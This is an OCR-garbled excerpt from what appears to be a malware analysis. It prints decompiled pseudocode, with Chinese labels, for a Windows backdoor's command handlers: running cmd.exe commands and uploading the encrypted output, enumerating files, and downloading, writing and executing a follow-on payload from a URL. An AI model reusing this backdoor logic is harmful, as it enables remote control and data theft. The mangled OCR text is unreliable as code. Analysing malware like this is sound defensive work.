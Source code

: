 SecondEnc(&v70, &v69);   
LOBYTE(v88) $=4$ memset(v23, 0, 0x30D40u);   
strcpy(v24, "vovdw");   
if （v71 >0xF)   
$v25~=~\lor70$   
sub_405BD0(v23，"%s=1110[(\*\*)]%s[(\*\*)]%s[(\*\*)]%s[（\*\*)]%s[（\*\*)]%s"，v24，v25，v59，v43，v46，v48） dword_4326A8(hInternet, v60, strlen(v60), v64, strlen(v64));   
InternetCloseHandle(hInternet);   
CloseHandle(hFile);  

·3gjdfghj6：创建cmd进程执行指定指令，并将执行结果加密上传  

wcscpy(String2,L"C:\\Windows\1System32\\cmd.exe /c");   
lpString1 $\l=$ unknown_libname_3(2000);   
memset(lpString1,0, 0x3E8u);   
lstrcatW(lpString1,String2);   
v18 $=$ lpString2;   
if（lpString2[5]>7) $\downarrow18=$ lpString2[0];   
lstrcatW(lpString1,v18);   
V19 $=$ dword_4326B0(v78，1pString1，0,0,1,0x8000000,0,0,&v51,&v62);   
CloseHandle(hobject);  

3fgjfhg4：遍历文件及目录  

strcpy(v111,"FindFirstFileW");   
dword_432680 $\l=$ GetProcAddress(v16, v111); v110[9] $=\theta.$   
\*&v110[7] $=6$   
strcpy(v110,"FindNextFileW");   
dword_4326B4 $=$ GetProcAddress(v16, v110);  

）3gnfjhk7：从指定URL下载后续负载保存到本地执行  

strcpy(v12, "URLOpenBlockingStreamA");   
dword_4326BC $\l=$ GetProcAddress(v11, v12);   
j_j_free(Block);   
jjfree(v12);   
if ( dword_4326BC(0, a2, &v67,0, 0) )   
qmemcpy(v95,"CreateFi", 8);   
v95[2] $=$ &loc_41656C;   
dword_4326A4 $\l=$ GetProcAddress(hInternet,v95);   
v18 $=$ (dword_4326A4)(v52，0x40000000，2,0，2，128，0);   
if （v18 !=-1 )   
{ \*&v103[5]= 0; $\vee1\theta4=\theta;$ strcpy(v103, "WriteFile"); ProcAddress $=$ GetProcAddress(hInternet, v103); $v2\Theta=\&v77$ if （v79>0xF） $v20~=~v77$ ； dword_4326c0 $=$ ProcAddress; (ProcAddress)(v18, v20, v78, &LastError, 0); CloseHandle(v18);   
strcpy(v23,"CreateProcessA");   
$\vee24=$ GetModuleHandleA("Kernel32.dll");   
dword_4326C4 $=$ GetProcAddress(v24, v23);   
(dword_4326C4)(v52，0，0,0,0，0,0,0，v72，v71);   
jj_free(v64);   
jjfree(v23);   
FirstEnc(&v75, v52, strlen(v52));   
LOBYTE(v105) = 4;   
SecondEnc(&v76,&v75);  
